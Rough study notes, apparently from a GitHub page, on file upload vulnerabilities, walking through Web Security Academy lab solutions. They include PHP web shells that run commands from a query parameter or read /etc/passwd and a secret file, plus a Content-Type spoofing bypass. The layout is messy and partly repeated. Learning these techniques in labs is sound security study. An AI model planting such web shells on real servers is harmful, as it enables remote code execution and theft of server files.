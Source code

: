 # file upload vulnerabilities

````php
<?php echo file_get_contents('/path/to/target/file'); ?>
``` change suit content-type: image/jpeg then inspect append/view img in new tab

```php
<?php echo system($_GET['cmd']); ?>
``` in website shell.php(contain this) shell.php?cmd=cat+/etc/passwd 

worst possible scenario is when a website allows you to upload server-side scripts, such as PHP, Java, or Python files, and is also configured to execute them as code.

or example, the following PHP one-liner could be used to read arbitrary files from the server's filesystem:

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
````

Once uploaded, sending a request for this malicious file will return the target file's contents in the response.

A more versatile web shell may look something like this:

```php
<?php echo system($_GET['cmd']); ?>
```

This script enables you to pass an arbitrary system command via a query parameter as follows:
GET /example/exploit.php?command=id HTTP/1.1

## (Remote code execution via web shell upload)

1.login account u saw u can upload a file u upload brup.php that contain

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

<img width="749" height="739" alt="image" src="https://github.com/user-attachments/assets/9e122425-f680-402c-8e08-429e09d3ff53" />

2.then u uploaded but it does not display at the avatar so inspect the avatar so we can check the result from the avatar

<img width="747" height="543" alt="image" src="https://github.com/user-attachments/assets/c5eff708-4ea9-4dee-bfbc-157bb2d74760" />
it show src="/files/avatars/brup.php"  so we append to the website or view image in new tab

[https://YOUR-LAB-ID.web-security-academy.net](https://YOUR-LAB-ID.web-security-academy.net)        /files/avatars/brup.php
solved!

<img width="684" height="184" alt="image" src="https://github.com/user-attachments/assets/9d7c9fd9-755c-4b49-aaf2-1a744515295f" />

qI2RxNp24Ki03oAbSoeQ9IOBFi38hMO8

## (Web shell upload via Content-Type restriction bypass)

this is similar since it does not accept .php only jpeg

<img width="704" height="221" alt="image" src="https://github.com/user-attachments/assets/43474c4f-b75b-40b8-8454-68512a1a1b8d" />
just change the content-type when intercept from application/x-php -> image/jpeg

<img width="528" height="349" alt="image" src="https://github.com/user-attachments/assets/88aaad1d-66a9-4f9e-b4be-6d3313aba2f3" />

<img width="735" height="264" alt="image" src="https://github.com/user-attachments/assets/541bc340-0775-49f4-945c-f83f96eb8b36" />
RDk0PI0DIfMHX8W31YjzuhXfrWOv2p4u solved!
